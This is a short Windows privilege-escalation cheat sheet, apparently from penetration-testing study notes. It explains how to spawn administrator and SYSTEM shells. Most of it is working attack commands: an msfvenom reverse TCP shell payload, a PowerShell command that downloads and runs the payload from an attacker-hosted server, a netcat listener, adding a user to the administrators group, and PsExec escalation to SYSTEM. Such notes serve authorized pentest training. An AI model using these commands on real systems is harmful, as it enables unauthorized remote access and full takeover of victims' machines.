

How spawn Administrator Shells
• msfvenom If we can execute
commands with admin privileges, a reverse shell generated by msfvenom works nicely:
attacker@kali:/# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
attacker@kali:/# python -m SimpleHTTPServer
This reverse shell can be caught using netcat or Metasploit’s own multi/handler.
PS> (New-Object System.Net.WebClient).downloadfile('http://192.168.147.139/reverse.exe','C:\Users\ckent\Desktop\reverse.exe');
PS> C:\Users\ckent\Desktop\reverse.exe
attacker@kali:/# nc -nvlp 53
•
RDP Alternatively, if RDP is available (or we can enable it), we can add our low privileged user to
the administrators group and then spawn an administrator command prompt via the GUI.
PS> net localgroup administrators <username> /add
• Admin -> SYSTEM To escalate from an admin user to full SYSTEM privileges,
you can use the PsExec tool from Windows Sysinternals (
https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).
PS> .\PsExec64.exe -a accepteula -i -s C:\PrivEsc\reverseShellGenerateWithMsfvenom.exe